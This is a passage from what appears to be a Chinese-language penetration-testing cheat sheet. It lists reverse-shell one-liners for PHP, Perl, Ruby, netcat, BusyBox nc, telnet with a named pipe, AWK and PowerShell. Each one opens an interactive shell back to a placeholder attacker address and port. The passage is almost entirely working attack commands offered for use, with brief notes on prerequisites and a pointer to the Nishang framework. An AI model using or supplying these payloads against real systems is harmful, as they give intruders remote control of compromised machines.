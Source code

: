 3.  **PHP**
    *   通常用于Webshell场景，执行系统命令。
    *   **反弹Shell示例:** (需要目标系统允许`proc_open`等函数)
        ```php
        php -r '$sock=fsockopen("<ATTACKER_IP>",<PORT>);exec("/bin/sh -i <&3 >&3 2>&3");'
        # (更复杂的Payload可能需要处理文件描述符)
        ```
4.  **Perl**
    ```perl
    perl -e 'use Socket;$i="<ATTACKER_IP>";$p=<PORT>;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
    ```
5.  **Ruby**
    ```ruby
    ruby -rsocket -e'f=TCPSocket.open("<ATTACKER_IP>",<PORT>).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
    ```
6.  **Netcat (`nc`)**
    *   如果目标上有`nc`且支持`-e`选项 (较旧或特定版本):
        ```bash
        nc <ATTACKER_IP> <PORT> -e /bin/bash
        # Windows:
        nc <ATTACKER_IP> <PORT> -e cmd.exe
        ```
    *   **BusyBox `nc`:** (通常不支持`-e`, 使用管道)
        ```bash
        busybox nc <ATTACKER_IP> <PORT> | /bin/sh | busybox nc <ATTACKER_IP> <SOME_OTHER_PORT> # (需要两个监听端口)
        # 或者使用前面提到的mkfifo方法
        ```
7.  **Telnet**
    *   (较少见，需要`telnet`和命名管道)
        ```bash
        rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|telnet <ATTACKER_IP> <PORT> >/tmp/f
        ```
8.  **AWK**
    *   (单行反弹Shell)
        ```awk
        awk 'BEGIN {s = "/inet/tcp/0/<ATTACKER_IP>/<PORT>"; while(42) { do{ printf "shell>" |& s; s |& getline c; if(c){ while ((c |& getline) > 0) print $0 |& s; close(c); } } while(c != "exit") close(s); }}'
        ```
9.  **PowerShell (Windows)**
    *   **基本反弹:**
        ```powershell
        powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('<ATTACKER_IP>',<PORT>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
        ```
    *   **Nishang框架中的Invoke-PowerShellTcp.ps1脚本是更常用和功能完善的选择。**
